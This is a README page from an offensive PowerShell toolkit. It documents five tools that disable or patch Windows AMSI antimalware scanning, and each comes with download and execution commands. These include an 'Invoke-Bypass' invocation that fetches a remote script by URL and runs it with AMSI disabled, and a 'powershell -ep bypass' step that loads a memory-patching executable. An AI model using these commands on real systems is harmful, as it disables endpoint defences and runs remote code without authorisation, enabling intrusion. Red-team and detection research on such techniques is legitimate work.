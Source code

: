 ## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Disable-Amsi.ps1
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)<br />[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Invoke-Bypass.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process + exec script through bypass?|User Land|3 bypass technics available (manual)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```
<br />

**execute:**
```powershell
Get-Help .\Invoke-Bypass.ps1 -full
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   

<br />

## ScanInterception.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[ScanInterception](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/ScanInterception.ps1)|Unchain AMSI by patching the provider’s unmonitored memory space|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/ScanInterception.ps1" -OutFile "ScanInterception.ps1"
```

<br />

**execute:**
```powershell
#Test detection
amsiutils

#Patch amsi scan function
.\ScanInterception.ps1

#Test detection
amsiutils
```

<br />

## amsibypass.exe
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[amsibypass.exe](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/amibypass.exe)|Unchain AMSI by patching the provider’s unmonitored memory space|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/amibypass.exe" -OutFile "amsibypass.exe"
```

<br />

**execute:**
```powershell
powershell -ep bypass -nop
.\amsibypass.exe $pid

#Test detection
amsiutils
```
